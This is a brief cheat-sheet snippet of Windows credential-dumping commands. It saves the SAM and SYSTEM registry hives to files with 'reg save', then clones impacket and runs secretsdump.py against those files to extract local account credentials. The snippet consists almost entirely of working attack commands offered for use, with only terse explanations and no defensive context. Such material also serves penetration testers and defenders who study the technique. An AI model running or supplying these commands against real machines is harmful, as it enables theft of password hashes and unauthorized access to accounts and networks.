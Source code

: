 ```
reg save HKLM\sam <file>
reg save HKLM\system <file>
```
dump Security Account Manager database to files.
```
git clone https://github.com/fortra/impacket
python ./impacket/examples/secretsdump.py -sam <file> -system <file> LOCAL
```
run impacket scripts to get credentials.